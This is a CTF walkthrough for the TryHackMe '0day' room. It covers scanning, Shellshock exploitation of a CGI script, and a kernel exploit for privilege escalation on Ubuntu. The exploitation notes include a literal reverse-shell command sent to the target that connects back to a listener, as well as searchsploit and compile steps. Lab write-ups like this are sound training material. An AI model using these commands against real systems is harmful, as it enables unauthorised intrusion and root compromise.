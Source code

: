 ```yaml
---

title: 0day
published: true
category: CTF
system: ubuntu
walkthrough-type: thm
source: https://tryhackme.com/room/0day
Description: Exploit Ubuntu, like a turtle in a hurricane.
tags: CVE, kernel exploit, shell shock, 0day
---
```


# Notes

nmap scans give us 22 and 80

exploring the site with gobuster we find a RSA Private key in `/backup/` but this seems to be a rabbit hole....

running nikto on the site we get that the site appears vulnerable to checllshock CVE-2014-6278

this exploit works by abusing a vulnerability that exists becuause Bash is operating as a parser for CHI scripts on web servers and the way it handles specifically-formatted enviroment variables, namely explorted shell functions.

using the exploit 34766 we can take advantage of this.

- `php 34766.php -u http://0day.thm/cgi-bin/test.cgi -c "sh -i >& /dev/tcp/10.2.3.64/6669 0>&1"`

And we can see we get a shell from the target and capture user.txt.

# Privesc

- `uname -a` we see the system is running ubuntu 3.13.

- `searchsploit -m 37292` to copy the vulnerability to the directory we are in. I was having trouble compiling with gcc on the target so we much use `dos2unix 37292.c` before sending in order to compile correctly.

now when trying to compile we get an error `gcc: error trying to exec 'cc1': execvp: No such file or directory`. Looks like its unable to find `cc1`. `cc1` is the program responsible for converting C code into assembler. To fix we can fix our PATH. `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin` Running the compiler again we can then execute our exploit. Which then we can pickup the last root.txt flag.